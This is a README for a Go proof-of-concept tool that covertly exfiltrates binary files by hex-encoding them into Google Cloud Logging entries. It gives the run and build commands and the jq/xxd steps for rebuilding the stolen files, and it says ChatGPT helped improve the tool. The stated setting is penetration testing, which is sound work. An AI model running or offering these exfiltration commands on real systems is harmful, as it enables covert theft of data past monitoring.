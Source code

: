   
## Usage
Proof of concept data exfil binary files to cloud logging via hex string
Dennis Chow dchow[AT]xtecsystems.com March 26, 2023
No expressed or implied warranty or liability.

## Related Article
Need some help using the solution? Check out my accompanying article: [Covert Data Exfil with GCP and Go](https://dwchow.medium.com/covert-data-exfil-with-gcp-and-go-599e361fbc17)

## Changes
*Revision 2:
Pair programmed with ChatGPT v4 using the preview. Lots of enhancements including the 256KB quota 
limitation per payload entry in GCP. 
It also helped me add dynamic labeling each chunk as its uploaded and changing the logName so you're not confused when using multiple files and which order you need to reconstruct back on the jq and xxd side. 
My OLD mostly original code is under main.old and you can see main.rev1 as a intermediate area where ChatGPT started enhancing the code.*

Dependencies and environment setup

    go init gologexfil/main && go get cloud.google.com/logging

## Usage
`go run main.go --service-cred <YOUR-ACC-CRED.json> --project-id <YOUR-GCP-PROJECTID> --exfil-file <PATH/TO/FILE.foo>`

Note: In pen testing do a go build first go build -o gologexfil ./main.go ensure you have already go get cloud.google.com/logging

Retrieve your file in GCP Cloud Logging either by console and dump to file e.g. cat dump.txt | xxd -r -p > somefile.ext

Alternatively use jq e.g.:

    jq -r '.[] | {textPayload} | select(.textPayload != null) | .textPayload' ./downloaded-logs.json > payload-hexdump.text

### Screenshots
![enter image description here](https://raw.githubusercontent.com/dc401/gologexfil/main/reconstructed-exfilimage.png)

![enter image description here](https://raw.githubusercontent.com/dc401/gologexfil/main/log-textpayload-example.png)
